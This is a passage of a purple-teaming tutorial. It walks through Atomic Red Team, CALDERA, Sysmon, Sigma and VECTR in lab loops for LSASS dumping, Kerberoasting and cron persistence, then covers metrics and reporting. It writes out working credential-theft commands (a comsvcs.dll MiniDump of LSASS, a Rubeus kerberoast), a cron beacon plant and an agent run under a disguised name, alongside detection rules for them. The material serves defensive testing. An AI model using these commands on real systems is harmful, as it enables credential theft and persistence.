**What it is.** VECTR (by SRA/Security Risk Advisors) is a free purpose-built platform for planning, executing, and tracking purple team assessments. It stores test cases mapped to ATT&CK, records the detection outcome for each (Detected / Blocked / Alerted / Logged / Not Detected), tracks time-to-detect, and produces trend reports and ATT&CK heatmaps across exercises over time.

**Why it matters.** A spreadsheet works for one exercise; VECTR is what lets a program answer "is our coverage improving quarter over quarter?" It turns purple teaming from an event into a measurable program. It runs as a Docker stack:

```bash
git clone https://github.com/SecurityRiskAdvisors/VECTR.git
cd VECTR
docker compose up -d      # UI at https://localhost:8081
```

### 7.6 ATT&CK Navigator — the coverage heatmap

Covered in Part 4: the free web app that renders your per-technique results as a colored matrix. You export a JSON "layer" from your results and load it into Navigator to produce the single-image coverage map that goes at the top of every purple report.

| Tool | Loop beat | Runs where | One-line role |
| --- | --- | --- | --- |
| Atomic Red Team | Emulate | Target host | Fire a single technique as a unit test |
| CALDERA | Emulate | Server + agents | Automate a whole adversary chain |
| Sysmon | Detect (visibility) | Windows endpoints | Produce the endpoint telemetry |
| Sigma / SigmaHQ | Tune (rules) | SIEM (via convert) | Portable, ATT&CK-tagged detection logic |
| VECTR | Score / track | Server (Docker) | Record outcomes, trend coverage over time |
| ATT&CK Navigator | Report | Browser | Render the coverage heatmap |

## Part 8: Hands-On Lab — A Purple Emulation, End to End

This lab runs one full pass of the detect–emulate–tune loop for a single high-value technique — **T1003.001, LSASS Memory dumping** — exactly as it would happen in a real purple session. It assumes a lab with: a Windows 10/11 target (`WS01`, `192.168.56.20`) joined to a small domain, Sysmon installed, and logs forwarding to a Splunk instance (`192.168.56.10`). Everything here is lab-scoped and authorized.

### Step 1 — Pre-flight: confirm the visibility we expect

Before firing anything, the blue analyst confirms the *data source* ATT&CK says we need is actually being collected. For T1003.001 that's Sysmon Event ID 10 targeting `lsass.exe`. Check the Sysmon config is even watching for it:

```powershell
# On WS01: is ProcessAccess (EID 10) present in the effective config?
C:\Sysmon\Sysmon64.exe -c | Select-String -Pattern "ProcessAccess" -Context 0,3
```

Realistic output if the config *suppresses* EID 10 (a common default):

```
(nothing returned — ProcessAccess rule group absent)
```

That's our first finding already, before any attack: **no LSASS process-access visibility.** We note it and, per the loop, fix the *instrumentation* layer first. Deploy a config that includes EID 10 for lsass:

```xml
<!-- snippet added to sysmonconfig.xml -->
<RuleGroup name="lsass-access" groupRelation="or">
  <ProcessAccess onmatch="include">
    <TargetImage condition="image">lsass.exe</TargetImage>
  </ProcessAccess>
</RuleGroup>
```

```powershell
C:\Sysmon\Sysmon64.exe -c C:\Sysmon\sysmonconfig.xml
# Config updated. EID 10 for lsass now active.
```

### Step 2 — Emulate: fire the technique with Atomic Red Team

Inspect the atomic first, then run it. We'll use the `comsvcs.dll` MiniDump procedure (Atomic test that dumps LSASS with a signed LOLBIN, so it also tests whether "legit binary" evasion slips past you):

```powershell
Invoke-AtomicTest T1003.001 -ShowDetailsBrief
```

```
T1003.001-1 Dump LSASS.exe Memory using ProcDump
T1003.001-2 Dump LSASS.exe Memory using comsvcs.dll
T1003.001-3 Dump LSASS.exe Memory using direct system calls and API unhooking
T1003.001-4 Dump LSASS.exe Memory using NanoDump
...
```

```powershell
Invoke-AtomicTest T1003.001 -TestNumbers 2 -ShowDetails
```

```
Attack Commands:
  Executor: command_prompt  ElevationRequired: True
  Command:
    C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll,
      MiniDump (Get-Process lsass).Id C:\Windows\Temp\lsass-comsvcs.dmp full
```

Run it (from an elevated context, since LSASS access requires SeDebugPrivilege):

```powershell
Invoke-AtomicTest T1003.001 -TestNumbers 2
```

```
Executing test: T1003.001-2 Dump LSASS.exe Memory using comsvcs.dll
Done executing test: T1003.001-2
```

The operator announces in the shared channel: *"Fired T1003.001 test 2 (comsvcs MiniDump) on WS01 at 14:32:10. Dump written to C:\Windows\Temp\lsass-comsvcs.dmp. Watch Sysmon EID 10."*

### Step 3 — Detect: what did the blue side see?

The blue analyst checks the raw Sysmon log on the host first (fast ground truth), then the SIEM.

```powershell
# On WS01: pull recent EID 10 events targeting lsass
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" -MaxEvents 50 |
  Where-Object { $_.Id -eq 10 -and $_.Message -match "lsass.exe" } |
  Select-Object -First 1 -ExpandProperty Message
```

Realistic event:

```
Process accessed:
UtcTime: 2027-05-10 09:02:11.744
SourceImage: C:\Windows\System32\rundll32.exe
TargetImage: C:\Windows\System32\lsass.exe
GrantedAccess: 0x1410
CallTrace: C:\WINDOWS\SYSTEM32\ntdll.dll+9d3c4|C:\WINDOWS\System32\comsvcs.dll+...
```

Good — the *telemetry* now exists (we fixed that in Step 1). Now the analyst checks whether an **alert** fired in Splunk. They run the SIEM search that a correlation rule would use:

```
index=win_sysmon EventCode=10 TargetImage="*\\lsass.exe"
| where GrantedAccess IN ("0x1010","0x1410","0x143a")
| stats count by SourceImage, GrantedAccess, Computer, _time
```

```
SourceImage                              GrantedAccess  Computer  count
C:\Windows\System32\rundll32.exe         0x1410         WS01      1
```

The event is *searchable* — but crucially, **no alert fired**, because no saved/scheduled correlation search exists for it yet. This is the classic **"logged but not alerted"** outcome. Score so far for T1003.001: *Visibility = YES (after fix), Alert = NO.*

### Step 4 — Tune: write the detection and re-validate

We deploy the Sigma rule from Part 7.4 (LSASS access via suspicious GrantedAccess), convert it to Splunk, and schedule it as an alert:

```bash
sigma convert -t splunk ./proc_access_win_lsass_dump.yml
```

```
index=win_sysmon EventID=10 TargetImage="*\\lsass.exe"
  (GrantedAccess="0x1010" OR GrantedAccess="0x1410" OR GrantedAccess="0x143a")
  NOT (SourceImage="*\\wininit.exe" OR SourceImage="*\\csrss.exe")
```

Save it as a scheduled alert firing every 1 minute over a 5-minute window, severity High, routed to the analyst queue. Now **re-run the atomic** to validate the fix:

```powershell
Invoke-AtomicTest T1003.001 -TestNumbers 2
```

This time the analyst sees the alert appear in the Splunk **Triggered Alerts** view:

```
Alert: LSASS Memory Access via Suspicious GrantedAccess
Severity: High   Time: 14:41:03   Host: WS01
SourceImage: C:\Windows\System32\rundll32.exe  GrantedAccess: 0x1410
Time-to-detect: 00:00:41
```

Score updated: *Visibility = YES, Alert = YES, MTTD = 41s, Quality = precise (the `filter_legit` exclusion keeps normal OS access out).* Then clean up the artifact the test created:

```powershell
Invoke-AtomicTest T1003.001 -TestNumbers 2 -Cleanup
# Removes C:\Windows\Temp\lsass-comsvcs.dmp
```

### Step 5 — Record and map

Log the result in VECTR (or the scorecard) and update the ATT&CK Navigator layer, coloring `T1003.001` green. In one 20-minute loop this single technique went from **two gaps** (no telemetry, no rule) to a **validated, precise, sub-minute detection** — and, just as importantly, you now *know* it works because you watched it fire against the real attack, not because a vendor datasheet promised it.

### Optional Step 6 — Chain it with CALDERA

To see the automated form, the same technique can run inside a CALDERA operation. With the Sandcat agent deployed (Part 7.2), launch an operation using a profile that includes an LSASS-dump ability; CALDERA runs it, stamps it `T1003.001`, and the operation report lists the ability, the command, the host, and the timestamp — feeding your scorecard automatically. Running the same profile weekly turns this one-off validation into a regression test for the detection: if a future Sysmon config change or log-pipeline outage breaks EID 10, next week's operation shows `T1003.001` flip back to red and you catch the regression before an adversary does.

## Part 9: Metrics — Measuring Detection Coverage

The deliverable of purple teaming is numbers, and the numbers must be honest and comparable over time. A few metrics carry most of the weight.

- **Detection coverage (%).** Of the techniques tested, what fraction produced an analyst-facing alert. But raw coverage is misleading unless you also report *visibility* separately: a technique that's logged-but-not-alerted is a very different (and cheaper) problem than one that's invisible. Report a three-way split: *Alerted / Logged-only / No-visibility*.
- **Mean Time to Detect (MTTD).** From technique execution to alert. Purple exercises give you a *true* MTTD per technique because you know the exact execution timestamp — something you almost never know for a real incident.
- **Mean Time to Respond (MTTR).** If the exercise extends into response (analyst triages, contains), how long from alert to containment.
- **Detection quality / precision.** Did the alert fire *only* on the malicious activity, or did it drown the analyst in false positives? A noisy alert that technically "fired" is a coverage liability, not a win — it trains analysts to ignore it.
- **Coverage over time (trend).** The single most important program-level metric: is the green area of your ATT&CK Navigator map growing exercise over exercise? A one-off 60% is far less meaningful than 45% to 60% to 72% across three quarters.

A useful maturity framing for each detection you validate — is it merely *present*, or is it *robust*?

| Detection maturity | Meaning | Purple test that reveals it |
| --- | --- | --- |
| **None** | Technique invisible | Any execution — no telemetry at all |
| **Telemetry only** | Logged, no alert | Execution appears in raw logs but no alert |
| **Alerting** | Analyst-facing alert fires | Execution triggers an alert |
| **Robust** | Alerts across procedure variants, resists evasion | Run *multiple* atomics for the same technique (procdump vs comsvcs vs nanodump); does the rule catch all? |
| **Resilient** | Survives evasion + config drift; re-validated on a schedule | Repeat operation over time; detection holds |

That "Robust" row is why serious purple teams run *several procedures per technique*. A rule keyed to `procdump.exe` by name catches Atomic test 1 and completely misses the `comsvcs.dll` LOLBIN variant we used in the lab. You only learn that by firing both — which is precisely the kind of blind spot covert red teaming and paper detection reviews never surface.

### 9.1 Worked coverage calculation

Numbers are only honest if you compute them consistently, so fix a method. Take the sample plan from Part 6 (five techniques) after a first pass and suppose the raw outcomes were: T1059.001 *alerted*, T1003.001 *alerted* (after fixing a log source), T1558.003 *logged-only*, T1021.001 *no-visibility*, T1053.005 *alerted*. Then:

- **Alerting coverage** = alerted / tested = 3 / 5 = **60%**.
- **Visibility coverage** = (alerted + logged-only) / tested = 4 / 5 = **80%**. The gap between the two (80% − 60% = 20 points) is your *cheap-to-close* backlog: techniques you already log and merely need a rule for.
- **Blind spots** = no-visibility / tested = 1 / 5 = **20%** — the expensive, instrumentation-level work that must come first for those techniques.
- **Mean MTTD** = average detection time across the *alerting* techniques only (you cannot time-to-detect something that never alerted): (25s + 41s + 30s) / 3 = **32s**.

Reporting only "60% detected" hides the fact that a quarter of the remaining gap is a one-afternoon rule-writing job while the rest is a project. Always publish the three numbers together. And never average MTTD across techniques that did not alert — that silently inflates or deflates the figure depending on how you treat the misses; scope MTTD to detections that fired and report the miss count separately.

### 9.2 The detect beat spans two planes — EDR and SIEM

"Did it alert?" has two answers, because most environments detect on two distinct planes and a technique can be caught on one and missed on the other:

- **The EDR plane** — the endpoint agent's own behavioral engine, which may alert (or outright *block*) locally, in seconds, without the event ever reaching the SIEM. During a purple exercise you check the EDR console *and* the SIEM, because "EDR blocked it silently" and "SIEM correlation alerted" are different coverage facts with different failure modes (EDR is fast but opaque and vendor-controlled; SIEM is slower but transparent and tunable by you).
- **The SIEM plane** — your own correlation rules over forwarded telemetry (Sysmon, Security log, auditd). This is the plane you fully control and the one most purple tuning targets.

Record both. A technique the EDR *blocks* is a strong outcome but leaves you dependent on a vendor you can't tune; the same technique with a SIEM detection gives you an analyst-visible, owned, adjustable alert. Mature scorecards therefore carry two columns — *EDR outcome* (blocked/alerted/none) and *SIEM outcome* (alerted/logged/none) — because "the EDR caught it" and "we would have investigated it" are not the same claim, and an exercise that conflates them overstates real coverage.



## Part 10: Models — From One-Off Exercises to Continuous Purple Teaming

Purple teaming runs at several cadences, and mature programs move rightward along this progression over time.

- **Micro-emulation / table-driven sessions.** A facilitator, a red operator, and a blue analyst run a small set of atomics (5–15 techniques) in a half-day, scoring each live. Cheapest to start, high learning value, great for a new program. This is the format the lab in Part 8 models.
- **Campaign / scenario-based exercises.** Emulate a full adversary chain — a threat-intel-led kill chain from initial access to objective — over one to several days, scoring techniques as the campaign progresses. More realistic, tests *detection-in-depth* (does the chain get caught *somewhere* even if individual links are missed), and exercises the SOC's ability to correlate related activity.
- **Continuous / automated purple teaming (breach-and-attack simulation, BAS).** Emulation runs on a schedule (CALDERA operations, or commercial BAS platforms) with results flowing automatically into the coverage tracker. Detections are now *regression-tested*: a broken log pipeline or a Sysmon config drift shows up as a technique flipping from green to red the next cycle. This is the end-state — detection engineering with a continuous test suite, exactly analogous to CI for software.



**Where BAS tools fit.** Commercial breach-and-attack-simulation platforms (and open CALDERA) automate the emulate beat at scale. They are powerful but carry a trap: automation makes it easy to generate a *coverage dashboard* nobody validates, and a green dashboard with no human in the loop is worse than no dashboard, because it manufactures false confidence. Automated purple teaming still needs periodic human-led exercises to sanity-check that "detected" in the tool means "an analyst would actually catch and action this," and to test the messy, creative techniques automation doesn't cover.

## Part 11: Frameworks, Threat-Led Emulation, and Real-World Practice

Purple teaming has matured into named methodologies you can adopt rather than inventing your own:

- **MITRE ATT&CK + Navigator + CALDERA** — the open trio: ATT&CK for the language, Navigator for the map, CALDERA for automated emulation. MITRE also publishes **Adversary Emulation Plans** (via the Center for Threat-Informed Defense) — detailed, step-by-step emulations of specific groups (APT3, APT29, FIN6, menuPass, and others) you can run more or less as-is.
- **SANS purple team methodology / SEC599 & SEC699** — a structured hypothesis-driven exercise format very close to the plan-in-hypotheses approach in Part 6.
- **Scythe's "Purple Team Exercise Framework" (PTEF)** — a free, well-known open framework laying out the phases (cyber threat intel, plan, execute, lessons learned) and the roles, widely used as a starting template.
- **Atomic Purple Team / Detection-as-Code pipelines** — treating detections like software: Sigma rules in git, atomics as the test suite, CI running emulations against a lab and failing the build if a detection regresses.

**Threat-intelligence-led emulation** is the throughline connecting purple teaming back to your CTI notebook. Rather than testing an arbitrary technique list, you take a threat actor that genuinely targets your organization's sector, extract that actor's ATT&CK techniques (from ATT&CK group pages, vendor reports, or a MITRE emulation plan), and run *that specific chain*. The result answers the question executives actually care about: **"If the actor most likely to hit us attacked us with their known playbook, how much of it would we catch?"** That framing is what turns a purple exercise from a technical curiosity into a board-level risk statement.

A concrete, realistic example of the emulate-side of a threat-led plan, expressed as CALDERA-style abilities for a FIN7-flavored initial-access-to-collection chain (each lab-scoped):

| Order | ATT&CK | Ability | Purple focus |
| --- | --- | --- | --- |
| 1 | T1204.002 | User opens weaponized document (simulated) | Do we log/alert on office-spawned children? |
| 2 | T1059.003 | `cmd.exe` spawned by `winword.exe` | Sysmon 1 parent-child anomaly |
| 3 | T1059.001 | PowerShell downloader stage | 4104 script-block + AMSI |
| 4 | T1547.001 | Run-key persistence | Sysmon 13 registry alert |
| 5 | T1003.001 | LSASS dump | (the lab technique) |
| 6 | T1005 | Stage local data for collection | File-access + archive-creation alerts |

**Open vs commercial tooling — a practical note.** The open stack in this chapter (Atomic Red Team, CALDERA, Sigma, VECTR) is enough to run a complete, professional purple program at zero licensing cost, and starting there is the right call for almost every team. Commercial breach-and-attack-simulation platforms add polish — a maintained technique library kept current with new threats, safer productionized agents, ready-made reporting, and vendor support — which matters most once you move to a *continuous* cadence across many hosts and need someone else maintaining the emulation content. The trap (Part 10) is identical for both: a slick dashboard is not coverage. Whether the emulation came from a free atomic or a six-figure platform, the outcome is only trustworthy if a human confirmed that "detected" means an analyst would actually catch and action it. Choose tooling by how much of the *emulate* beat you want maintained for you; never let procurement substitute for validation.

## Part 12: A Second Loop — Kerberoasting, and the Linux Side

One worked technique is enough to teach the loop, but a purple exercise never stops at one, and the two most common gaps in a first exercise — an identity technique that lives in domain-controller logs rather than endpoint telemetry, and Linux coverage that nobody instrumented at all — deserve their own walkthrough. This part runs a compressed second loop for **T1558.003 Kerberoasting** (a Credential Access technique whose telemetry lives on the domain controller, not the victim host) and then shows how the identical methodology transfers to Linux.

### 12.1 Kerberoasting: why its telemetry is different

Kerberoasting (covered offensively in the Active Directory notebook) abuses the fact that any authenticated domain user can request a Kerberos service ticket (TGS) for any account that has a Service Principal Name (SPN), and that ticket is encrypted with the service account's password hash. The attacker requests tickets for SPN-bearing accounts and cracks them offline. The purple-relevant fact is that **the attack leaves almost nothing on the machine the attacker runs it from** — the meaningful event is a `4769` Kerberos service-ticket request logged on the **domain controller**, not on the workstation. Teams that instrument endpoints heavily but forget domain-controller log collection have a gaping, invisible hole here, and only a purple test surfaces it.

**Pre-flight (visibility check).** The blue analyst confirms the DC is actually forwarding `4769` events and that "Audit Kerberos Service Ticket Operations" is enabled:

```powershell
# On the DC: is Kerberos service-ticket auditing on?
auditpol /get /subcategory:"Kerberos Service Ticket Operations"
```

```
Kerberos Service Ticket Operations       Success and Failure
```

If that returned "No Auditing," the technique would be invisible at the source — an instrumentation gap to fix before any rule matters, exactly as in Part 8.

### 12.2 Emulate

The red operator requests service tickets for all SPN accounts. Using Rubeus (taught in the AD notebook) in the announced, transparent purple style:

```powershell
# Announced: "Firing T1558.003 Kerberoast against all SPN accounts at 15:04. Watch DC 4769 with RC4."
Rubeus.exe kerberoast /outfile:hashes.txt
```

```
[*] Total kerberoastable users : 6
[*] SamAccountName         : svc_sql
[*] ServicePrincipalName   : MSSQLSvc/db01.corp.local:1433
[*] Encryption type        : RC4_HMAC (0x17)
[*] Hash written to hashes.txt
...
```

The key observable is a burst of TGS requests, disproportionately for **RC4 (`0x17`)** encryption — modern accounts should negotiate AES (`0x12`), so a flood of RC4 TGS requests for service accounts from a single workstation is the anomaly a detection keys on.

### 12.3 Detect and tune

The blue analyst searches the DC security log in the SIEM:

```
index=win_security EventCode=4769 Ticket_Encryption_Type=0x17
| stats dc(Service_Name) as spn_count values(Service_Name) by Account_Name, src_ip
| where spn_count > 3
```

```
Account_Name  src_ip          spn_count  values(Service_Name)
alice         192.168.56.20   6          MSSQLSvc/...; HTTP/...; CIFS/...
```

Six distinct SPNs requested with RC4 by one user in seconds — logged, but no alert. We deploy a Sigma rule and re-validate:

```yaml
title: Potential Kerberoasting via Bulk RC4 TGS Requests
tags:
    - attack.credential_access
    - attack.t1558.003
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4769
        TicketEncryptionType: '0x17'
    timeframe: 5m
    condition: selection | count(ServiceName) by AccountName > 3
falsepositives:
    - Legacy applications that still request RC4 tickets in bulk
level: high
```

Re-run `Rubeus kerberoast`; the alert fires. Score: *Visibility = YES, Alert = YES after tuning, MTTD ≈ 1 min, Quality = watch for legacy-app false positives.* The broader lesson banked in the scorecard: **identity techniques need domain-controller telemetry, and coverage that stops at the endpoint is blind to a whole tactic.**

### 12.4 The Linux side — same loop, different telemetry

Purple teaming is not Windows-only, and the identical loop applies to Linux targets with Linux telemetry. The visibility foundation there is **auditd** (the Linux Audit daemon) plus, increasingly, **eBPF-based sensors** (Falco, Tetragon) and endpoint agents — the Linux analogue of Sysmon. A quick worked micro-loop for **T1053.003 (cron)** persistence:

```bash
# Pre-flight: is auditd watching cron and the crontab?
auditctl -l | grep -i cron
# If empty, add a watch (instrumentation fix):
auditctl -w /etc/crontab -p wa -k cron_persist
auditctl -w /var/spool/cron/ -p wa -k cron_persist

# Emulate (announced): attacker plants a cron job (T1053.003)
echo '* * * * * /tmp/.beacon.sh' >> /var/spool/cron/crontabs/www-data

# Detect: pull the audit event
ausearch -k cron_persist -i | tail -5
```

```
type=PATH msg=audit(...): name="/var/spool/cron/crontabs/www-data" nametype=NORMAL
type=SYSCALL ... comm="bash" exe="/usr/bin/bash" key="cron_persist"
```

Logged, no alert → the tune step ships a Sigma rule (`logsource: product: linux, service: auditd`, tag `attack.t1053.003`) that alerts on writes to cron paths by unexpected processes, and you re-run to confirm. The methodology is invariant across platforms; only the **data source** changes — Sysmon/Security-log on Windows, auditd/eBPF on Linux, CloudTrail on AWS. That platform-independence is exactly why ATT&CK's data-source mapping (Part 4) is the blue analyst's first stop for *any* technique on *any* platform.

| Platform | Visibility foundation | Example key event | Detection sink |
| --- | --- | --- | --- |
| Windows endpoint | Sysmon + Security auditing | Sysmon 1/10, Security 4688/4104 | SIEM (Splunk/Sentinel/Elastic) |
| Windows identity (AD) | DC Security log | 4768/4769/4624/4662 | SIEM |
| Linux | auditd + eBPF (Falco/Tetragon) | auditd SYSCALL/PATH, Falco alerts | SIEM |
| Cloud (AWS) | CloudTrail + GuardDuty | CloudTrail API events | SIEM / cloud-native |

## Part 13: The Purple Report and Building a Program Cadence

A purple exercise that ends without a crisp deliverable and a follow-up loop is a training session, not a program. The report is short by design — the value is in the scorecard and the actions, not the prose.

### 13.1 What the report contains

- **Executive summary (half a page).** The single coverage number in its honest three-way form ("of 15 techniques tested: 7 alerted, 5 logged-only, 3 no-visibility"), the trend versus last exercise, and the top three risks in business language.
- **The ATT&CK Navigator heatmap.** One image: green/yellow/red across the tested techniques. This is what executives remember.
- **The per-technique scorecard.** The live table from the exercise, now final: ID, procedure, host, execution time, visibility, alert, MTTD, quality, and — critically — the assigned owner and due date for every non-green row.
- **Detections produced.** The actual Sigma rules written or tuned during the exercise, committed to the detection repository with their ATT&CK tags. A purple report should ship *code*, not just findings.
- **Instrumentation gaps.** The log sources and audit policies that were missing, since these usually block more coverage than any single rule.
- **Response observations.** Where the exercise extended into triage: did the alert reach an analyst, was the runbook adequate, was containment possible.

A realistic scorecard excerpt as it appears in the final report:

| ATT&CK | Technique | Visibility | Alert | MTTD | Quality | Owner | Due |
| --- | --- | --- | --- | --- | --- | --- | --- |
| T1059.001 | PowerShell (encoded) | Yes | Yes | 25s | Good | — | closed |
| T1003.001 | LSASS dump | Fixed in-session | Yes | 41s | Precise | — | closed |
| T1558.003 | Kerberoasting | Yes | Yes | 63s | Watch legacy FPs | SOC-eng | +2w |
| T1021.001 | RDP lateral | Yes | No | — | — | Detection | +1w |
| T1053.005 | Scheduled task | No | No | — | — | Platform (log src) | +1w |

Notice that "closed" rows are as important as open ones: they are the evidence the program produces real, validated improvement, and they are what makes the *trend* line move.

### 13.2 Cadence — turning exercises into a program

- **Quarterly, at minimum, to start.** A half-day micro-emulation of 10–15 techniques every quarter is enough to build momentum and a trend line without overwhelming a young program.
- **Rotate the driver.** Alternate coverage-gap-led exercises (attack your reddest columns) with threat-intel-led ones (emulate the actor most relevant to your sector this quarter) so you both broaden coverage and stay aligned to real threat.
- **Re-test the last exercise's gaps first.** Every session opens by re-firing the previous session's non-green techniques to confirm the fixes shipped and held. This closes the accountability loop and is where the "regression test" value lives.
- **Graduate to continuous.** As the program matures, move the routine, well-understood techniques into scheduled CALDERA/BAS runs (regression testing on autopilot) and reserve the live human-led sessions for new techniques, creative variants, and response-process testing — the things automation can't judge.



**Vanity metrics to refuse.** As the program matures, stakeholders will ask for numbers that sound good and mean little. Push back on these:

- **"Number of techniques tested"** as a headline — volume without outcome. Ten techniques all alerting beats fifty untriaged.
- **A single "% detected"** with no visibility/blind-spot split — hides whether the gap is cheap (rules) or expensive (instrumentation).
- **EDR "block" counts** presented as coverage — silent vendor blocks you can't tune or investigate are not the same as owned detections.
- **Green-cell totals from an unvalidated BAS dashboard** — coverage nobody confirmed a human would action.

Report instead: the three-way coverage split, MTTD over techniques that alerted, the closed-versus-open gap count, and the quarter-over-quarter trend. Those four resist gaming and actually track defensive reality.

The loop at the *program* level mirrors the loop at the *technique* level: measure, fix, re-validate, and let the trend prove it. A purple program's real output is not any single report but a coverage line that climbs, quarter over quarter, with every improvement validated against the actual attack — the closest thing security has to knowing, rather than hoping, that its detections work.

## Part 14: Detection & Defense Angle (Consolidated)

This is the section every earlier part has been feeding, because in purple teaming detection *is* the product. Pulling the defensive lessons together:

**Visibility precedes detection — always diagnose the layer.** The most common and most valuable finding of a first purple exercise is not "we lack rules" but "we lack *logs*." Techniques come back invisible because Sysmon EID 10 was suppressed, PowerShell script-block logging (`4104`) was never enabled, command-line auditing (`4688` with `ProcessCommandLine`) was off, or a log-forwarding pipeline silently died weeks ago. Fix instrumentation first; a rule against a missing log is worthless. The audit-policy and Sysmon-config baseline is therefore the first defensive deliverable of any purple program.

**Detection-as-code makes coverage durable.** Author every detection produced during tuning as a version-controlled, ATT&CK-tagged Sigma rule in a git repository, converted to your SIEM's dialect at deploy time. This gives you portability across SIEMs, peer review of detection logic, a changelog, and — combined with scheduled emulation — a regression test suite. When a detection breaks, you find out from your own emulation, not from an incident.

**Test procedure variants, not just techniques.** Because attackers pick whichever *procedure* evades you, a detection is only as good as the narrowest variant it misses. Run multiple atomics per technique (procdump / comsvcs / nanodump / direct-syscall for T1003.001) and prefer behavioral detections (any non-OS process opening a handle to lsass with dump-grade access) over brittle IOC-based ones (a specific tool filename or hash).

**Close the loop into response, not just detection.** A validated alert that no analyst actions is not a win. Extend mature exercises past "did it alert?" into "did the on-call analyst triage it correctly, and could they contain it?" — testing runbooks, SOAR playbooks, and escalation paths, not just rules. Purple teaming is one of the few ways to exercise the *human* side of the SOC against real attack telemetry.

**Feed results back into both parents.** Every purple cycle should update three things: the blue team's detection backlog (new/tuned rules), the log-source/instrumentation baseline (gaps to close), and the red team's knowledge of what the environment does and doesn't see (sharpening future covert engagements). A purple exercise whose findings don't change any of those three has produced a report, not an improvement.

**IR use case.** The precise MTTD and per-technique execution timestamps a purple exercise produces are gold for incident-response planning: they let you set realistic detection SLAs, identify which stages of the kill chain you'd catch an intruder at, and rehearse the analyst workflow against known-good ground truth before a real adversary forces the issue.

## Part 15: Common Pitfalls

- **Treating it as red-vs-blue competition.** The fastest way to kill a purple program is to let it become a scoreboard. If red gloats about evasion or blue hides gaps to save face, the measurement becomes dishonest. The facilitator must relentlessly frame every gap as a shared win.
- **Batching techniques without scoring between them.** Fire five techniques, then look — and you can no longer attribute alerts to techniques. Discipline: one technique, score it, next.
- **Skipping the visibility diagnosis.** Recording "not detected" and writing a rule, when the real problem was a missing log source, produces a rule that never fires. Always ask "was it *logged*?" before "was it *alerted*?".
- **Testing one procedure and declaring the technique "covered."** A rule keyed to `procdump.exe` gives false confidence while the `comsvcs.dll` variant walks straight past. Test variants.
- **Automating without validating.** A BAS dashboard showing 80% green that no human has confirmed is worse than nothing — it manufactures false confidence. Automation augments human-led exercises; it doesn't replace them.
- **No cleanup / lab hygiene.** Atomics and operations create artifacts (dumped files, scheduled tasks, registry keys, agents). Not cleaning up leaves the environment dirty, skews later tests, and — worse — can leave real footholds. Always run cleanup and account for every artifact created.
- **Findings with no owner or deadline.** A gap found and not assigned rots. Every scorecard row that isn't green needs an owner and a follow-up date, and the next exercise must re-test it.
- **Confusing "alert fired" with "detection works."** A noisy alert buried under false positives is a liability. Score quality, not just presence.

## Part 16: Final Revision / Summary

- **Purple teaming is a collaborative, transparent, technique-driven activity** in which offense executes known ATT&CK techniques while defense watches, so both sides can *measure and improve* detection and response coverage. It's a *function*, usually not a standing team.
- It sits at the **junction of the offensive and defensive lineages**: red proves paths exist, blue watches, purple makes coverage measurable and feeds improvements back to both. Unlike covert red teaming, its goal is to be *seen clearly enough to measure*, not to win quietly.
- The engine is the **emulate → detect → tune loop**, run one technique at a time. The detect beat has three distinct outcomes — **alerted / logged-only / no-visibility** — and you must diagnose which, because you fix instrumentation before rules before quality.
- **MITRE ATT&CK is the shared language**: stable technique IDs let the emulation, the detection rule, the scorecard, and the Navigator heatmap all reference the same box, and ATT&CK's data-source mapping is your pre-flight visibility checklist.
- The **toolchain**: Atomic Red Team (single-technique unit tests), CALDERA (automated adversary chains), Sysmon (endpoint visibility foundation), Sigma (portable ATT&CK-tagged detections), VECTR (exercise tracking and trends), ATT&CK Navigator (coverage heatmap).
- The lab walked one full loop for **T1003.001 LSASS dumping**: pre-flight found no EID 10 visibility → fixed the Sysmon config → fired the `comsvcs.dll` atomic → found "logged but not alerted" → deployed a Sigma rule → re-ran and validated a precise, sub-minute alert → cleaned up and mapped it green.
- **Metrics** turn activity into a program: a three-way coverage split, MTTD, detection quality, and — most importantly — coverage *trend* over time. Detection **maturity** runs from none → telemetry-only → alerting → robust (survives procedure variants) → resilient (survives drift, re-validated on schedule).
- Programs mature from **micro-emulations → campaign exercises → continuous/automated (BAS) purple teaming**, ideally threat-intel-led so results answer "how much of *our* actual adversary's playbook would we catch?"
- The whole thing is **authorization-first and defender-outcome-driven**: transparent, lab-or-scoped, collaborative, and judged by whether coverage improved — not by who "won."

## Part 17: Cheat Sheet / Quick Reference

**The loop:** Emulate → Detect (alerted? / logged-only? / no-visibility?) → Tune (fix log source → write rule → tune quality) → re-run to validate. One technique at a time.

**Atomic Red Team:**

```powershell
Invoke-AtomicTest T1003.001 -ShowDetailsBrief      # list tests for a technique
Invoke-AtomicTest T1003.001 -TestNumbers 2 -ShowDetails   # inspect before running
Invoke-AtomicTest T1003.001 -TestNumbers 2 -GetPrereqs    # fetch prerequisites
Invoke-AtomicTest T1003.001 -TestNumbers 2                # execute
Invoke-AtomicTest T1003.001 -TestNumbers 2 -Cleanup       # remove artifacts
```

**CALDERA (server + agent):**

```bash
python3 server.py --insecure --build          # start server (UI :8888)
```

```powershell
# deploy Sandcat agent (elevated, on target) — see Part 7.2 full block
Start-Process C:\Users\Public\splunkd.exe -ArgumentList "-server $server -group red"
```

**Sysmon:**

```powershell
Sysmon64.exe -accepteula -i config.xml   # install with config
Sysmon64.exe -c config.xml               # update running config
Sysmon64.exe -c                          # dump effective config
# Key events: 1 proc-create | 3 net | 7 image-load | 10 process-access(LSASS) | 11 file | 13 registry
```

**Sigma:**

```bash
pip install sigma-cli --break-system-packages
sigma convert -t splunk rule.yml         # -> SPL   (also: sentinel/KQL, elasticsearch, ...)
```

**Key ATT&CK IDs for a first credential-access/lateral exercise:** T1059.001 (PowerShell), T1003.001 (LSASS), T1003.002 (SAM), T1558.003 (Kerberoast), T1021.001 (RDP), T1053.005 (scheduled task), T1547.001 (run-key persistence).

**Detection triage question order:** (1) Was it *logged*? → if no, fix telemetry. (2) Was it *alerted*? → if no, write a rule. (3) Was it *precise & timely*? → if no, tune. (4) Does it catch *variants*? → if no, broaden.

**Coverage scoring vocabulary:** No-Visibility / Logged-Only / Alerted / Robust / Resilient. Report the three-way split + MTTD + trend, never a single "% detected."

**LSASS dump detection (Sysmon EID 10):** `TargetImage` endswith `\lsass.exe` AND `GrantedAccess` in `0x1010 / 0x1410 / 0x143a`, excluding legitimate OS accessors (`wininit.exe`, `csrss.exe`).

## Part 18: Practice Labs & Resources

